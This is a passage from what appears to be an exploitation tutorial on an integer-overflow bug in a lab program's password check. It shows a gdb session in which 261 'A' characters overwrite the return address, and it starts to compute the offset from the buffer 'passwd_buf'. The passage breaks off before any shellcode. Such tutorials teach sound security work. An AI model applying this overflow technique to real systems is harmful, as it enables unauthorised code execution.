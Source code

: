 <div align=center><img src="Resource/f223ecbf45f65f00685e2a59d485c5ee_2.png"/></div>

As we already know a password of length 261, bypasses bounds checking and allows us to overwrite the return address located in stack. Lets test it out by sending a series of A’s.

Test Step 1: Is Return Address Overwrite possible?
```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*261'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*261'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

## Test Step 2: What is the offset from Destination Buffer?

Here lets find out at what offset return address is located from buffer ‘passwd_buf’. Having disassembled and drawn the stack layout for validate_passwd(), lets now try to find offset location information!! Stack Layout shows that return address is located at offset (0x18) from buffer ‘passwd_buf’. 0x18 is calculated as follows:
